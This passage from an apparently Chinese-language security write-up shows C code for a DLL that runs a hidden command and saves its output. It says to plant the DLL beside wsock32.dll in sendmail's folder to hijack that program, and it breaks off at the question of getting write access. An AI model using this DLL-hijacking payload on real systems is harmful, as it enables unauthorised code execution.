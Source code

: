 ```c

        SECURITY_ATTRIBUTES                sa;
        HANDLE                                        hRead, hWrite;
        byte                                        buf[40960] = { 0 };
        STARTUPINFOW                        si;
        PROCESS_INFORMATION                pi;
        DWORD                                        bytesRead;
        RtlSecureZeroMemory(&si, sizeof(si));
        RtlSecureZeroMemory(&pi, sizeof(pi));
        RtlSecureZeroMemory(&sa, sizeof(sa));
        int br = 0;
        sa.nLength = sizeof(SECURITY_ATTRIBUTES);
        sa.lpSecurityDescriptor = NULL;
        sa.bInheritHandle = TRUE;
        if (!CreatePipe(&hRead, &hWrite, &sa, 0))
        {
                ExitProcess(0);
        }
        si.cb = sizeof(STARTUPINFO);
        GetStartupInfoW(&si);
        si.hStdError = hWrite;
        si.hStdOutput = hWrite;
        si.wShowWindow = SW_HIDE;
        si.lpDesktop = L"WinSta0\\Default";
        si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
        if (!CreateProcessW(NULL, cmd, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi))
        {
                CloseHandle(hWrite);
                CloseHandle(hRead);
                ExitProcess(0);
        }
        CloseHandle(hWrite);
        while (1)
        {
                if (!ReadFile(hRead, buf + br, 4000, &bytesRead, NULL))
                        break;
                br += bytesRead;
        }

        WriteFile(h, buf, br, &tmp, 0);
        CloseHandle(h);
        CloseHandle(hRead);
        CloseHandle(pi.hProcess);
        ExitProcess(0);
}
```

代码很简单，执行命令，保存文件，直接加入DllMain就行了。

编译之后生成一个dll，需要把这个dll和原本的wsock32.dll放入sendmail的文件夹。

那么问题来了，我们并没有读写sendmail程序文件夹的权限，怎么办呢。
